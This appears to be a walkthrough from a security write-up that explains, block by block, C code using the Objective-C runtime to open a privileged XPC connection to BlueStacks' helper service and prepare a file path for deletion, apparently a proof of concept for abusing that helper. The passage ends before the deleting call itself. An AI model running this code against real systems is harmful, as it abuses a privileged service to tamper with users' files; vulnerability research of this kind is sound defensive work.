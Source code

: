 ### Writing the Objective-C Runtime Code 

The following is a explanation of each block of Objective-C run time code. 

Open the Foundation Framework, we need this framework in our threads enviornment so that we can interaction with Foundation objects (such as NSStrings)

```c                                                    
void *sdl_library = dlopen("/System/Library/Frameworks/Foundation.framework/Versions/Current/Foundation", 0x1);
```
Setup the NSAutoreleasePool so that we can use objects that require interactaction with the NSAutoreleasePool.
```c
// Set up an NSAutoreleasePool
Class nsautoreleasepool = objc_getClass("NSAutoreleasePool");
id pool = class_createInstance(nsautoreleasepool, 0);
id poolAfterInit = set_selector_msgsend(pool, sel_registerName("init"));
```
Create the NSString that represents the mach service name that we are going to be interacting with("com.BlueStacks.AppPlayer.bstservice_helper").
```c
// Setup NSString
id mach_service_name = (id)objc_getClass("NSString");
int NSUTF8StringEncoding = 4;
id tmp = set_selector_msgsend(mach_service_name, sel_registerName("alloc"));
id text = set_nssttring_with_c_string_type_msgsend(tmp, sel_registerName("initWithCString:encoding:"), "com.BlueStacks.AppPlayer.bstservice_helper", NSUTF8StringEncoding);
```
Create the XPC connection object and initialize it with the mach service name of the previous NSString("com.BlueStacks.AppPlayer.bstservice_helper") and pass the NSXPCConnectionPrivileged constant which indicates we are communicating with a privledged service. 
```c
//  setup the NSXPCConnection 
Class nsxpcconection = objc_getClass("NSXPCConnection");
id connection_test = class_createInstance(nsxpcconection,0);
id conn_ptr = set_string_int_msgsend(connection_test, sel_registerName("initWithMachServiceName:options:"), text, 0x1000);
```
Get a instance of the protocol that we are interacting with (HelperIpcprotocol).
```c
//  define the protocol 
Protocol* helper_ipc_protocol_ptr = objc_getProtocol("HelperIpcProtocol");
```
Create the XPC connection and set the protcol to helper_ipc_protocol_ptr. 
```c
//  setup the NSXPCInterface
id nsxpcinterface = (id)objc_getClass("NSXPCInterface");
printf("nsxpcinterface ptr %p\n", nsxpcinterface);
id interface_ptr = set_proto_ptr_msgsend(nsxpcinterface, sel_registerName("interfaceWithProtocol:"), helper_ipc_protocol_ptr);
```
Set the interface on the connection to be the interface created with the HelperIpcProtocol protocol.
```c
//  set the remote object interface to interface_ptr
set_interface_ptr_msgsend(conn_ptr, sel_registerName("setRemoteObjectInterface:"), interface_ptr);
```
Create the NSString for the parameter to the function("/tmp/xpc_test")
```c
//  resume the connection
set_selector_msgsend(conn_ptr, sel_registerName("resume"));
id file_to_delete = (id)objc_getClass("NSString");
NSUTF8StringEncoding = 4;
tmp = set_selector_msgsend(file_to_delete, sel_registerName("alloc"));
text = set_nssttring_with_c_string_type_msgsend(tmp, sel_registerName("initWithCString:encoding:"), "/tmp/xpc_test", NSUTF8StringEncoding);
```
